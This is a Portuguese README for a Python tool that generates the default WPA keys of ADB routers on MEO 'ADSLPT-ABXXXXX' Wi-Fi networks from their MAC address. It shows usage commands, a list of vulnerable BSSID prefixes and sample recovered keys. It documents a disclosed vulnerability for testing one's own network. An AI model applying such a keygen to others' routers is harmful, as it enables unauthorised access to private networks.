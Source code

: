 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-ABXXXXX".

Referencias
----

* O autor do codigo é [Eduardo Novella](https://twitter.com/enovella_) ([repositório original](https://bitbucket.org/dudux/adbpirelli))  que encontrou a vulnerabilidade nos routers ADB utilizado na Argentina pela operadora Arnet. O codigo neste repositorio encontra-se modificado de modo a funcionar nos routers da MEO com o SSID "ADSLPT-ABXXXXX". Eu não sou o seu autor!

Aviso
----
Não me responsabilizo por qualquer problema que o uso indevido deste codigo, te possa causar seja de que forma for. 
Este codigo serve apenas para testar a segurança da tua rede, pelo que se usares este codigo noutra rede que não seja
a tua não serei responsavel!!

Licence
----
GPLv3
http://gplv3.fsf.org/

Mais info
----
+ http://ednolo.alumnos.upv.es/?p=1883

Utilização

O codigo é escrito em Python
----

	$ python MEO.py -v
	MEO.py 1.5 [2015-07-20] ----> https://github.com/AndrewGomes/ADSLPT-WPA

	$ python MEO.py 
	usage: MEO.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> Keygen para as redes WiFi da MEO com o SSID ADSLPT-ABXXXXX Não me
	responsabilizo por qualquer problema que o uso indevido deste codigo, te possa
	causar seja de que forma for. Este codigo serve apenas para testar a
	segurança da tua rede, pelo que se usares este codigo noutra rede que não
	seja a tua não serei responsavel!!


	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --versão         show program's version number and exit
	  -l, --list            Mostrar vulnerabilidades
	  -a, --allkeys         Bruteforce

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Endereço MAC do Router

	(+) Ajuda: python MEO.py -b 11:22:33:44:55:66


	$ python MEO.py -l
	[+] Possiveis alvos:
		 bssid: 00:08:27:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX


	$ python MEO.py -b 11:22:33:44:55:66
	[+] MAC     : 11:22:33:44:55:66
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX

	$ python MEO.py -b 11:22:33:44:55:66 -a
	[+] MAC     : 11:22:33:44:55:66

	wfti5odq8c

	[+] Chaves possiveis para o SSID: ADSLPT-ABXXXXX
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq 